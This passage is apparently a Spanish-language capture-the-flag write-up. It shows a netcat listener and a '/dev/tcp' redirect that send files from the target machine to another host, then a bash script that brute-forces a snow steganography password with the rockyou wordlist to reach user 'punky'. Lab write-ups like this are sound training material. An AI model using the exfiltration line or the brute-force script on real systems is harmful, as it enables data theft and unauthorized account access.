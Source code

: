 Así que con ayuda de netcat nos traemos los dos ficheros miletra.txt y elperro.mp3

Primero con netcat abrimos el puerto 443 en un maquina y apuntamos para que descarge el fichero mi letra.

`nc -nlvp 443 > miletra.txt`

y en la maquina host 

`cat /usr/include/musica/miletra.txt > /dev/tcp/172.17.0.1/443 `

y repetimos el mismo paso para el otro fichero.

Ahora nos instalamos el binario snow, el cual muestra en la descripcion en el fichero .stego
se puede descargar desde aqui.

`https://darkside.com.au/snow/`

y para poder descrifrar el fichero ya que esta cifrado y si hacemos snow -C miletra.txt nos va a devolver caracters sin sentido podemos crear un script en bash sencillo para que lo pueda descifrar.

Salida del comando de snow

```bash
./snow -C miletra.txt
ieonmenei  stsiPd          
```

Script en bash

```bash
#!/bin/bash

FILE="miletra.txt"
WORDLIST="/usr/share/wordlists/rockyou.txt"  # Cambia por tu diccionario si es otro

while IFS= read -r PASS; do
    OUTPUT=$(./snow-20130616/snow -C -p "$PASS" "$FILE" 2>/dev/null)
    
    if echo "$OUTPUT" | grep -q "password:"; then
        echo "[+] Contraseña encontrada: $PASS"
        echo "[+] Mensaje oculto: $OUTPUT"
        break
    fi
done < "$WORDLIST"        
```

el cual usando el rockyou y el binario de snow que descargamos nos devolvera el password que encuentre

```bash
bash brute-snow.sh
[+] Contraseña encontrada: superman
[+] Mensaje oculto: password:secret
```

en este caso podemos ver que la contreseña para descifrar el fichero txt es superman y la contraseña oculta es secret, así que vamos a acceder al usuario punky.
